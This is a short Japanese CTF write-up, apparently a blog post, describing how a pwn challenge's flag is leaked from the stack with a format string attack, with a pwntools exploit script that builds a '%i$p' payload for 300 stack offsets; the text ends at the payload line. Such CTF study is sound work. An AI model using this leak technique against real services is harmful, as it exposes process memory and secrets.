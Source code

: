 普通の書式文字列攻撃でスタック上のフラグをリーク。なんでこんなにLiked低いんだろう？

解き方は↓に解説してあるものそのまま使える。

[テンプレ: 書式文字列攻撃 (Format String Attack) でスタック上の文字列を復元](https://laysakura.notion.site/CTF-pwn-reverse-e0fd38c4a24040679c0e45eed3c8d7ab#bf9ae57474be42a1b0628b2193b7d2b2)

スクリプト↓

```python
## Run local executable.
##   ./exploit.py LOCAL EXE=./executable
#
## Run remote (with local executable for addresses)
##   ./exploit.py HOST=example.com PORT=4141 EXE=/tmp/executable
#
## Run with GDB script.
##   ./exploit.py GDB
## --- (Edit GDB script if necessary) --------------------------------
gdbscript = """
tbreak main
continue
""".format(
    **locals()
)
## -------------------------------------------------------------------

from pwn import *

## --- (do not edit) ---------------------------------------------------
if args.EXE:
    exe = context.binary = ELF(args.EXE)

def start_local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    host = args.HOST
    port = int(args.PORT)
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

io = start()
## -----------------------------------------------------------------------

## EXPLOIT GOES HERE

## 書式文字列攻撃 (スタックのリーク)

## param: printfの何番目の引数（=~ スタックポインタの何個上のワード）から、
offset = 0
## param: 何番目の引数までのアドレスを出力するか
num = 300

payload = ",".join([f"%{i}$p" for i in range(offset, offset + num)])
```